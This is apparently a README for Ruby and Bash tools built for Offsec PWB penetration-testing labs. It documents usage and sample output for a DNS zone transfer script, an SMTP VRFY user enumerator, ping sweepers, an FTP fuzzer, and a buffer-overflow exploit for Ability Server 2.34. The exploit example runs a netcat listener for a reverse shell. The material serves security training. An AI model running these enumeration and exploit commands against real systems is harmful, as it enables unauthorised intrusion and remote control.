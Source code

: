 Tools for Offsec PWB Labs
========

axfr.rb
--------

An example Ruby script that attempts a full DNS zone transfer (AXFR) using dnsruby

```
Usage: axfr.rb [options] zone

Available options:
    -n, --nameserver HOSTNAME        Specify the nameserver to AXFR zone from
    -w, --timeout SECONDS            Wait timeout in seconds
    -v, --verbose                    Be more verbose
    -h, --help                       Show this help
```

smtpvrfy.rb
--------

Multithreaded SMTP user enumartion tool. You can fine tune the number of threads and users checked in one connection. 
Please note that some SMTP servers might not allow you to do more than a few VRFY calls. The default is to 
reconnect after checkign 3 users. Without the dictionary file the tool only checks for a few standard users. 

```
# ./smtpvrfy.rb -h
Usage: smtpvrfy.rb [options] SMTP_SERVER[:PORT]
Where available options:
    -t, --threads N                  Number of threads (connections) to use - Default: 50
    -c, --chunk N                    Recycle the connection (thread) after N number of users checked - Default: 3
    -u, --user FILE                  Read a dict file with users
    -d, --debug                      Enable session debug
    -h, --help                       Show this help

``` 
Example:

```
# ./smtpvrfy.rb -t 10 -c 5 -u userdict.txt 192.168.11.215
Time: 00:00:20 |===================================================>>| 100% VRFY
adm@redhat.acme.com
apache@redhat.acme.com
bin@redhat.acme.com
bob@redhat.acme.com
```
mping.sh
---------

Just a simple Bash script that indentifies all live hosts (responding to ping) on a given network(s).

```
Usage: ./mping.sh [-t] <IP Range>[,<IP Range>]
  Options:
  -t <n>: Number of ping threads to use (Default: 50)
  -v    : Verbose mode

  Example:
      ./mping.sh 192.168.11.200-192.168.11.254
      ./mping.sh -t 100 192.168.1.1-192.168.1.100,10.1.0.0-10.2.1.1

```

mping.rb
--------
Just a simple Ruby script that indentifies all live hosts (responding to ping) on a given network(s).

```
# ./mping.rb 
Usage:
    mping.rb [options]
    -t, --thread [N]                 Threads to spawn
    -v, --verbose                    Run verbosely
    -h, --help                       Show help
Example:
    mping.rb 192.168.10.200-192.168.10.254
    mping.rb -t 100 10.1.2.3-10.1.2.254,192.168.1.1-192.168.10.254
```
Example:

```
# ./mping.rb -t100 192.168.11.200-192.168.11.254,192.168.13.200-192.168.13.254,192.168.15.200-192.168.15.254,192.168.17.200-192.168.17.254 
Time: 00:00:10 |===============================================================================================================================================================================>>| 100% Ping
192.168.11.201
192.168.11.202
192.168.11.205
192.168.11.206
192.168.11.208
```

ftpfuzz.rb
---------

A basic ftp fuzzer

```
Usage: ftpfuzz.rb [options] ftp-host[:port]

Where available options:
    -u, --user USER                  FTP Username
    -p, --pass PASS                  FTP Password
    -c, --command COMMAND            FTP command to fuzz
    -P, --payload PAYLOAD            Payload to repeat
    -i, --increment INT              Increment the payload times
    -v, --verbose                    Verbose output
    -h, --help                       Show this help
```

Example:

```
# ./ftpfuzz.rb -v -u ftp -p ftp -P A -i 300 -c APPE 192.168.1.4 
220 Welcome to Code-Crafters - Ability Server 2.34. (Ability Server 2.34 by Code-Crafters).
USER ftp
331 Please send PASS now.
PASS ftp
230- Welcome to Code-Crafters - Ability Server 2.34.
230 User 'ftp' logged in.

[*] Using: APPE A
[*] Sending A of size 1 characters
550 File write/modification access disallowed.
[*] Sending A of size 301 characters
550 File write/modification access disallowed.
[*] Sending A of size 601 characters
550 File write/modification access disallowed.
[*] Sending A of size 901 characters
550 File write/modification access disallowed.
[*] Sending A of size 1201 characters
./ftpfuzz.rb:73:in `gets': Connection reset by peer (Errno::ECONNRESET) 
```
ability_appe_exploit.rb
---------------

Exploit against Ability Server <= 2.34 using buffer - Windows XP SP2 

```
Usage: ability_appe_exploit.rb [options] ftp-host[:port]

Where available options:
    -u, --user USER                  FTP Username
    -p, --pass PASS                  FTP Password
    -s, --shellcode TYPE             Shellcode to inject
      Where TYPE can be:
                          simple
                          pattern
                          revshp
                          revsht
                          bind
    -w, --winver                     Windows version
    -v, --verbose                    Verbose output
    -h, --help                       Show this help
```
Example usage:

```
$ nc -l -n -p 4444

$ ability_appe_exploit.rb -u ftp -p ftp -v -s revsht 192.168.11.97
220 Welcome to Code-Crafters - Ability Server 2.34. (Ability Server 2.34 by Code-Crafters).
USER ftp
331 Please send PASS now.
PASS ftp
230- Welcome to Code-Crafters - Ability Server 2.34.
230 User 'ftp' logged in.
[*] Deliverying the payload...
APPE ��������������������������....
```

